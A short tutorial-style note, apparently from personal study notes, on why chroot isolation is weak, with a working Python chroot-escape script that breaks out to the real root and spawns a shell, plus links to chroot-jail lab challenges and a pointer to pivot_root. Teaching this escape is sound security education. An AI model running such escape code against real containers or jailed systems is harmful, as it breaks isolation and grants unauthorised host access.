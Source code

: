 # Chroot

`chroot` aims at providing isolation, it changes the root directory
for the current running processes. It is helpful to recover the system.
Because I have used it many times for my ArchLinux.

It may seem perfect for containers to provide file-system isolation. However,
`chroot` can be exploited. Linux `/proc` filesystem manages two paths for
the currently running process.

+ `cwd`: current working directory of the process
+ `root`: root directory of the process

And we can easily get the out-side file-system using the following scripts:

```py
import os

print("PID", os.getpid())

if not os.path.exists("chroot"):
    os.mkdir("chroot")
os.chroot("chroot")

# We could change the `cwd` to be `/root`, thus we can
# get out-side file-system.
for i in range(1000):
    os.chdir("..")

# Now, we do second chroot thus get whatever we want
os.chroot(".")
# To spawn a shell
os.system("/bin/sh")
```

And there are three labs for you to code in action, just do the first.
Because it is free.

1. [Chroot Jail I](https://attackdefense.com/challengedetails?cid=1306)
2. [Chroot Jail II](https://attackdefense.com/challengedetails?cid=1307)
3. [Chroot Jail III](https://attackdefense.com/challengedetails?cid=1308)

Thus, we need to another functionality for providing isolation for Docker,
which is called `pivot_root`.

## Reference

+ [Breaking out of CHROOT Jailed Shell Environment](https://tbhaxor.com/breaking-out-of-chroot-jail-shell-environment/)
+ [Chroot](https://en.wikipedia.org/wiki/Chroot)
